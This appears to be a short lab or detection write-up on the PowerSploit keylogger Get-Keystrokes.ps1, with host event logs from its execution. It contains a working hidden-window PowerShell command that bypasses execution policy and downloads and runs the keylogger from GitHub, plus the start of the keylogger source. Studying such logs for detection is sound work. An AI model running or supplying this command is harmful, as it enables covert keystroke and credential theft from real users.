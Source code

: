 [Get-Keystrokes.ps1] logs key presses, time and the active window to a file named [stage.txt], which is located in [C:\temp]

[Get-Keystrokes.ps1] is a module from [PowerSploit]

[https://attack.mitre.org/software/S0194/]

> Jun 15, 2022 @ 15:44:23.004	 - 	DESKTOP-J22LNE4	
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -
WindowStyle hidden powershell.exe -exec Bypass -noexit -C IEX (New-Object Net.WebClient).
DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1') >> C:\temp\stage.txt





[how_Get-Keystrokes.ps1_works]
Engine state is changed from None to Available. 

Details: 
	NewEngineState=Available
	PreviousEngineState=None

	SequenceNumber=13

	HostName=ConsoleHost
	HostVersion=5.1.19041.1237
	HostId=959fc15d-384c-4bab-9cf3-e2ee7496a2b4
	HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec Bypass -noexit -C IEX function Get-Keystrokes {
<#
.SYNOPSIS

    Logs keys pressed, time and the active window.
    
    PowerSploit Function: Get-Keystrokes
    Original Authors: Chris Campbell (@obscuresec) and Matthew Graeber (@mattifestation)
    Revised By: Jesse Davis (@secabstraction)
    License: BSD 3-Clause
    Required Dependencies: None
    Optional Dependencies: None
    
.PARAMETER LogPath

    Specifies the path where pressed key details will be logged. By default, keystrokes are logged to %TEMP%\key.log.

.PARAMETER Timeout

    Specifies the interval in minutes to capture keystrokes. By default, keystrokes are captured indefinitely.

.PARAMETER PassThru

    Returns the keylogger's PowerShell object, so that it may manipulated (disposed) by the user; primarily for testing purposes.

.EXAMPLE

    Get-Keystrokes -LogPath C:\key.log
